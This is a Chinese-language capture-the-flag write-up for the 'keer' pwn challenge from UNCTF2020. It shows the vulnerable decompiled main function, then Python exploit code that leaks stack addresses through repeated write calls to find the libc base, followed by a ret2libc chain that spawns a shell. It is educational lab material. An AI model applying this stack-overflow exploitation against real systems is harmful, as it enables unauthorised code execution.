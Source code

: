 
## keer's bug
- 题目描述
- 题目附件：[keer](https://cdn.jsdelivr.net/gh/TaQini/ctf@master/unctf2020/pwn/keer/keer)
- 考察点：？迷惑
- 难度：一般

### 程序分析

``` c
int __cdecl main(int argc, const char **argv, const char **envp)
{
  char s[80]; // [rsp+0h] [rbp-50h]

  memset(s, 0, 0x50uLL);
  write(1, "Come on!! You can ri keer!!!\n", 0x1DuLL);
  read(0, s, 0x70uLL);
  return 0;
}
```

24字节栈溢出，也就是说ROP链只能有仨gadget。

### 解题思路
尝试栈迁移，感觉有点麻烦。于是利用`read`函数残留的参数，直接调用`write`，执行`write(0,s,0x70);`用于泄漏栈中变量，然后返回`main`。如此重复泄漏10次，可以得到ld中的`_dl_init+139`，由此可计算出libc基址。

``` python
offset = 88
payload = 'A'*offset
payload += p64(elf.sym['write'])
payload += p64(elf.sym['main'])

ru('Come on!! You can ri keer!!!\n')
stack = []
for i in range(10):
    se(payload)
    ru(payload)
    stack.append(uu64(ru('Come on!! You can ri keer!!!\n')))
    info_addr('stack[%d]'%i)

libcbase = stack[8]-0x3da80b
info_addr('libcbase')
```

然后ret2libc即可

``` python
system = libcbase + libc.sym['system']
binsh = libcbase + libc.search('/bin/sh').next()

offset = 88
payload = 'A'*offset
payload += p64(prdi) + p64(binsh)
payload += p64(system)

sl(payload)
```

### More

you can download full exp from my [github](https://github.com/TaQini/ctf/tree/master/unctf2020/pwn/keer) 

